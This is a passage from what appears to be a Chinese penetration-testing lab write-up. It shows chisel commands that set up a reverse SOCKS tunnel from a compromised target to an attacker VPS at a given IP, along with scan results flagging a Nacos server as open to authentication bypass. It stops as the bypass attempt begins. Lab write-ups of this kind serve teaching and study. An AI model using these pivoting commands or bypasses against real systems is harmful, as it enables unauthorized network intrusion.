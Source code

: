 ## 代理搭建

VPS 端

```plain
./chisel server -p 7000 -reverse
```

[![](assets/1706771111-56f2612cf5fd26254f801738e8fac0df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129173516-b59c070a-be89-1.png)

靶机

```plain
./chisel client 119.3.215.198:7000 R:0.0.0.0:7001:socks
```

[![](assets/1706771111-44120f3106cb5bb5dc344e050c88e13b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129173528-bcf37ed4-be89-1.png)

## 攻击域用户一 (nacos Yaml 反序列化)

### 信息泄露

在 Fscan 扫描结果中发现

```plain
[+] PocScan http://172.30.12.6:8848 poc-yaml-alibaba-nacos 
[+] PocScan http://172.30.12.6:8848 poc-yaml-alibaba-nacos-v1-auth-bypass
```

所以尝试一下用户登录绕过漏洞

[![](assets/1706771111-d3791e6ad411c3c0b6f1af5b8a3ad29c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129173536-c1cbf2b0-be89-1.png)
